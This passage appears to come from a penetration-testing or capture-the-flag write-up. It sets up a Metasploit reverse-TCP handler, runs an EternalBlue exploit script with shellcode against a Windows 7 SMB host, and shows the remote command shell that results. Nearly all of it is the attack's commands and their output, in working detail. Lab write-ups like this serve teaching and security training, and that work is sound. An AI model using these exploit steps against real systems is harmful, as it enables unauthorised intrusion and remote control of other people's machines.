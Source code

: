     resource (config.rc)> set PAYLOAD windows/shell/reverse_tcp
    [*] Started reverse TCP handler on 10.254.1.47:443
    PAYLOAD => windows/shell/reverse_tcp
    resource (config.rc)> set LPORT 445
    LPORT => 445
    resource (config.rc)> exploit -j
    [*] Exploit running as background job 1.
    [*] Exploit completed, but no session was created.
    [*] Starting persistent handler(s)...
    
    [*] Started reverse TCP handler on 10.254.1.47:445
    msf5 exploit(multi/handler) > 
    

Now I just run the exploit from a different window. It worked on the second
run:

    
    
    root@kali# python eternalblue_exploit7.py 10.1.1.13 shellcode/sc_all.bin
    shellcode size: 2203
    numGroomConn: 13
    Target OS: Windows 7 Professional 7601 Service Pack 1
    SMB1 session setup allocate nonpaged pool success
    SMB1 session setup allocate nonpaged pool success
    good response status: INVALID_PARAMETER
    done
    root@kali# python eternalblue_exploit7.py 10.1.1.13 shellcode/sc_all.bin
    shellcode size: 2203
    numGroomConn: 13
    Target OS: Windows 7 Professional 7601 Service Pack 1
    SMB1 session setup allocate nonpaged pool success
    SMB1 session setup allocate nonpaged pool success
    good response status: INVALID_PARAMETER
    done
    

In Metasploit, I get a callback:

    
    
    [*] Encoded stage with x86/shikata_ga_nai
    [*] Sending encoded stage (267 bytes) to 10.1.1.13
    [*] Command shell session 1 opened (10.254.1.47:445 -> 10.1.1.13:49173) at 2019-02-21 13:28:21 -0500
    
    msf5 exploit(multi/handler) > sessions
    
    Active sessions
    ===============
    
      Id  Name  Type               Information                                                                       Connection
      --  ----  ----               -----------                                                                       ----------
      1         shell x86/windows  Microsoft Windows [Version 6.1.7601] Copyright (c) 2009 Microsoft Corporation...  10.254.1.47:445 -> 10.1.1.13:49173 (10.1.1.13)
    